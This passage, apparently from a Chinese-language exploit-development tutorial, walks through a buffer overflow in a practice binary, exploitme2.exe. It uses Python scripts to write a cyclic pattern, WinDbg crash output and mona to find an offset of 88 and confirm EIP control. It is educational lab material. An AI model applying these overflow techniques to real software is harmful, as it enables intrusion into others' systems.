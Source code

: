 ```
with open('c:\\name.dat', 'wb') as f:
    pattern = 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8...(snipped)'
    f.write(pattern)  

```

注意，我已经截下了一段模板，因为它过长而没有在这里展示出来。

我们用WinDbg重启exploitme2.exe，第二次按下F5，得到：

```
(11e0.11e8): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000000 ebx=00000000 ecx=64413963 edx=77c2b4ad esi=00000000 edi=00000000
eip=64413963 esp=0042f310 ebp=0042f330 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010246
64413963 ??              ???

```

我们可以观察到 `EIP = 0x64413963`. 让我们看看被定位的模板偏移。记住英特尔CPU是小端模式的，因此`0x64413963 = “\x63\x39\x41\x64” = “c9Ad”`。让我们使用mona来判断该偏移：

```
0:000> !py mona pattern_offset 64413963
Hold on...
[+] Command used:
!py mona.py pattern_offset 64413963
Looking for c9Ad in pattern of 500000 bytes
 - Pattern c9Ad (0x64413963) found in cyclic pattern at position 88
Looking for c9Ad in pattern of 500000 bytes
Looking for dA9c in pattern of 500000 bytes
 - Pattern dA9c not found in cyclic pattern (uppercase)  
Looking for c9Ad in pattern of 500000 bytes
Looking for dA9c in pattern of 500000 bytes
 - Pattern dA9c not found in cyclic pattern (lowercase)      

[+] This mona.py action took 0:00:00.172000

```

偏移是88。用如下Python脚本来检验那正确的偏移：

```
with open('c:\\name.dat', 'wb') as f:
    handler = 'bbbb'
    f.write('a'*88 + handler + 'c'*(10000-88-len(handler)))

```

这次WinDbg输出如下：

```
(1b0c.1bf4): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000000 ebx=00000000 ecx=62626262 edx=77c2b4ad esi=00000000 edi=00000000
eip=62626262 esp=002af490 ebp=002af4b0 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010246
62626262 ??              ???

```
